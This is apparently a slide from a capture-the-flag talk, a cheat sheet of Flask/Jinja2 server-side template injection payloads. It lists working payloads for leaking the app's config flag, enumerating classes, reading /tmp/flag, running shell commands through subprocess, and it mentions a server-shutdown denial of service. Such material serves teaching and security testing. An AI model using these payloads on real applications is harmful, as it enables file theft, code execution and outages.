

# Finding flags
Introspection
With the locals object using dir and help to see everything that’s available in the template context.
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG’]}}
DoS
The request.environ object contains the method shutdown_server.
Extract classes
{{''.class.mro()[1].subclasses()}}
Arbitrary file read
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40](\"/tmp/flag\").read() }}
RCE
By using the subprocesses class we can issue arbitrary commands.
{{config.items()[4][1].__class__.__mro__[2].__subclasses__()[229]([\"touch /tmp/test\"], shell=True) }}
Samples from https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti